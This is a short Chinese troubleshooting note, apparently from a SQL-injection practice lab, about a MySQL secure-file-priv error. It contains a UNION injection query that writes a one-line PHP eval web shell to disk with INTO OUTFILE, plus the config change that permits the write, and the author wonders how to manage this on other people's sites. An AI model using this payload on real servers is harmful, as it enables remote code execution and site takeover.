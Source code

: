 # 坑

## MYSQL导出数据出现The MySQL server is running with the --secure-file-priv option

执行语句

```
select * from security.users where id=1 union select 1,2,'<?php eval($_POST[giantbranch]);?>' into outfile 'C:\\Users\\Administrator\\Desktop\\test.php';
```

的时候报错

```
ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv option so it cannot execute this statement
```

一脸懵逼，教程上也没有啊 -- 自己百度把，其实是个简单问题，就是说导出文件的那个目录不在mysql支持的安全导出目录呗，咱们加上去就行了（那么在别人家的网页sql注入的时候怎么加嘞，这是个问题诶）

先找到mysql的安装根目录，打开my.ini配置文件，加上这句话`secure_file_priv = "C:\Users\Administrator\Desktop"`即可,顺手说明在mysql命令行中写`select @@basedir`可以找到mysql安装根目录哟

![k_1](.\images\k_1.png)